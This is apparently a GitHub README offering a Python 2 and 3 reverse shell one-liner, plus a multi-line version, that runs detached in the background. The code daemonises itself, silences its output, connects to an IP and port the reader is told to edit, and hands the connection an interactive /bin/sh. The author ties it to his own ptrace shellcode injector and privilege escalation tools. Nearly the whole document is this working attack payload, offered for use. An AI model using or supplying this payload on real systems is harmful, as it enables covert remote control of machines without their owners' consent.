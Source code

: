 # python 2 & 3 reverse shell one liner detached (background) By David Reguera Garcia aka Dreg

Just change the part: "127.0.0.1",9999

python 2:
```
python -c 'exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect(("127.0.0.1",9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")'
```

python 3:
```
python -c 'exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect(("127.0.0.1",9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")'
```

I made this for my shellcode injector in sudo shells via ptrace:

https://github.com/David-Reguera-Garcia-Dreg/drx_ptrace_shellcode_injector

https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

https://github.com/David-Reguera-Garcia-Dreg/

http://www.fr33project.org

dreg@fr33project.org

multi line code:
```
import socket,subprocess,os,sys

pidrg = os.fork()
if pidrg > 0:
	sys.exit(0)

os.chdir("/")

os.setsid()

os.umask(0)

drgpid = os.fork()
if drgpid > 0:
	sys.exit(0)

sys.stdout.flush()

sys.stderr.flush()

fdreg = open("/dev/null", "w")

sys.stdout = fdreg

sys.stderr = fdreg

sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

sdregs.connect(("127.0.0.1",9999))

os.dup2(sdregs.fileno(),0)

os.dup2(sdregs.fileno(),1)

os.dup2(sdregs.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

http://jagt.github.io/python-single-line-convert/
